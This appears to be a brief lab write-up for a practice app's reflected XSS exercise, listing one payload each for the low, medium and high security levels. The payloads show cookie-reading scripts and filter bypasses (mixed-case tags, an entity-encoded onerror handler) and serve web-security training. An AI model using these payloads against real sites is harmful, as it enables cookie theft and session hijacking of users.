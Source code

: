 # XSS (Reflected)

## low

```
<script>document.write(document.cookie)</script>
```

## medium

```
<sCript>document.write(document.cookie)</sCript>
```

## high

bypass preg_replace()

```
<img src="" onerror="javascri&#112;t:document.write(document.cookie)">
```
